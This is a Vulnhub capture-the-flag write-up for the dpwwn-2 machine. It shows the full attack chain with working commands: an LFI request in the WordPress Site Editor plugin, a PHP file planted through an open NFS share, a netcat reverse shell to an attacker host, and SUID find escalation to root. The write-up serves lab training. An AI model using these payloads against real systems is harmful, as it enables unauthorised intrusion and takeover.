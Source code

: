 ```yaml
---
layout: post
title: Vulnhub - dpwwn-2 writeup
date: 2019-08-19 8:50 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dpwwn-2,343/">dpwwn: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/debashisace">  debashisace</a></h4>

## Nmap

![](images/dpwwn2/nmap.png)

We've got quite a few ports open. Let's start with HTTP

***

## HTTP/HTTPs

![](images/dpwwn2/http.png)

If we visit the website we get a simple message about rooting the machine.

Since there is nothing here I just ran dirsearch and found a page.

```bash
➜ python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u http://10.10.10.10 -w ../lists/big.txt
```

![](images/dpwwn2/dirsearch.png)

Since it's a wordpress site I simply ran `wpscan` on it.

```bash
➜ wpscan --url http://10.10.10.10/wordpress/ -e u,ap --no-banner
```

![](images/dpwwn2/users.png)

We can see that `Site Editor` is vulnerable to LFI. We can read about the vulnerability on exploitdb, [Wordpress Plugin Site Editor 1.1.1 - Local File Inclusion](https://www.exploit-db.com/exploits/44340).

In Short we can exploit it by visiting link like `http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`.

I tried to get RCE with this LFI but couldn't. So I left it this way and went on to checkout the nfs mount.

***

## NFS

We first check if the mount is accesible by everyone or not.

![](images/dpwwn2/showmount.png)

Since everyone can access it. We can just mount it on our system and then analyze it.

I mounted it in `tmp` dir.

Run the following commands.

* cd /tmp
* mkdir dpwwn
* `sudo mount 10.10.10.10:/home dpwwn`

After doing that I `cd` into the directory but it was empty.

![](images/dpwwn2/dirs.png)

I first thought for a while then realized the relation between the LFI and this mount. We can call a file present in this mount using the LFI and maybe it will run the PHP code i.e our reverse shell.

I used `msfvenom` to generate the reverse shell.

```bash
$ msfvenom -p cmd/unix/reverse_netcat lport=443 lhost=10.10.10.11
```

Then make it executable by PHP

```bash
$ echo "<?php system('mkfifo /tmp/qkcohb; nc 10.10.10.11 4444 0</tmp/qkcohb | /bin/sh >/tmp/qkcohb 2>&1; rm /tmp/qkcohb');" > shell.php
```

![](images/dpwwn2/cp.png)

Run your listener and then run

```bash
➜ http -b http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php\?ajax_path\=/home/dpwwn02/shell.php
```

This will give us the reverse shell.

![](images/dpwwn2/rev.png)

***

## Privileg escalation

Since we are in the system let's run the `enumeration` script. With that I found a SUID file.

![](images/dpwwn2/suid.png)

I searched `find` on `gtfobin` and found the `SUID` section i.e [gtfobin/find#suid](https://gtfobins.github.io/gtfobins/find/)

We can run `find . -exec /bin/sh -p \; -quit` to get a root shell.

![](images/dpwwn2/root-shell.png)

Now get the flag.

![](images/dpwwn2/root.png)

***

This part was also kinda beginner but the reason it's considered intermediate is because of that part where we have to call shell in nfs from LFI.

Thanks to [@debashisace](https://twitter.com/debashisace) for this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
